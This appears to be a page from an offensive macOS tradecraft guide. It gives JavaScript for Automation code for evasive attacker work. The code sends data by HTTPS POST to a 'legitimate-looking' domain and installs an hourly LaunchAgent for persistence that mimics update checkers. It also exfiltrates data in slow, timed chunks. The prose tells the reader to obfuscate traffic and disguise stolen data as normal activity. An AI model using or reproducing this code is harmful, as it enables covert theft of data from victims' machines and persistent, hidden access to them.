 ### Network Communication

- Use common protocols and ports.
- Implement traffic obfuscation.
- Leverage existing system services for communication.

Example:
```javascript
function sendData(data) {
    const url = $.NSURL.URLWithString('https://legitimate-looking-site.com');
    const request = $.NSMutableURLRequest.requestWithURL(url);
    request.HTTPMethod = 'POST';
    request.HTTPBody = $.NSString.alloc.initWithString(data).dataUsingEncoding($.NSUTF8StringEncoding);
    $.NSURLConnection.sendSynchronousRequestReturningResponseError(request, null, null);
}
```

Scenario: When exfiltrating data, use HTTPS POST requests to a legitimate-looking domain instead of creating custom network sockets or using uncommon protocols.

### Persistence

- Use legitimate persistence mechanisms.
- Mimic behaviors of known, trusted applications.
- Implement time-based or event-based triggers.

Example:
```javascript
function createLaunchAgent(label, program) {
    const plist = {
        Label: label,
        ProgramArguments: ['/usr/bin/env', 'osascript', '-l', 'JavaScript', program],
        RunAtLoad: true,
        StartInterval: 3600
    };
    const plistPath = `${$.NSHomeDirectory().js}/Library/LaunchAgents/${label}.plist`;
    $.NSPropertyListSerialization.dataWithPropertyListFormatOptionsError(plist, $.NSPropertyListXMLFormat_v1_0, 0, null).writeToFileAtomically(plistPath, true);
}
```

Scenario: For persistence, create a Launch Agent that runs your script every hour, mimicking the behavior of legitimate update checkers.

### Data Exfiltration

- Use approved channels.
- Implement data chunking and slow exfiltration.
- Disguise data as normal file types or network traffic.

Example:
```javascript
function exfiltrateData(data) {
    const chunks = chunkData(data, 1024);
    chunks.forEach((chunk, index) => {
        setTimeout(() => {
            sendData(chunk);
        }, index * 60000); // Send a chunk every minute
    });
}
```
